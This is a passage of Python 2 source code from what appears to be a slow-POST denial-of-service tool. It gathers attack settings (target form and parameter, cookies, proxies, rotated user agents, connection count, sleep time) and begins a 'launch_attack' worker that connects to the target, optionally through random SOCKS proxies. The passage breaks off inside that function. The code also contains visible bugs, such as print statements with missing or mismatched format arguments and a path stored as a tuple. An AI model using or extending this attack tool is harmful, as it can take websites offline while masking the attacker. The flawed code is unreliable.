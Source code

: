                configs['proxies'] = []
                for line in fd:
                    proxy = line.split()
                    configs['proxies'].append({
                        'address' : proxy[0],
                        'port' : proxy[1],
                    })

    configs['user_agents'] = [DEFAULT_USER_AGENT]
    if args.user_agent_file is not None:
        with open(args.user_agent_file) as fd:
            configs['user_agents'] += fd.read().split('\n')

    # select form and target POST parameter, and set cookies 
    session = select_session(configs)
    response = session.get(args.target)
    form = choose_form(response)
    configs['param'] = choose_input(form)['name']
    configs['cookies'] = response.headers.get('set-cookie', '')

    # select target URL using selected form
    parsed_url = urlparse(args.target)
    if form['action'] != '':
        if form['action'].startswith('/'):
            configs['target'] = 'http://%s%s' % (parsed_url.netloc, form['action'])
    else:
        configs['target'] = args.target

    # set path, HTTP host and port 
    configs['path'] = parsed_url.path,
    configs['host'] = host_from_url(configs['target'])
    configs['port'] = port_from_url(configs['target'])

    # set connections and sleep_time
    configs['connections'] = args.connections
    configs['sleep_time'] = args.sleep_time

    return configs

def launch_attack(i, configs, headers):

    try:

        # establish initial connection to target
        print '[worker %d] Establishing connection'

        # if we're using proxies, then we use socksocket() instead of socket()
        if 'proxies' in configs:

            # select proxy
            proxy = random.choice(configs['proxies'])
            print '[worker %d] Using socks proxy %s:%d' % (proxy['address'], proxy['port'])

            # connect through proxy
            sock = socksocket()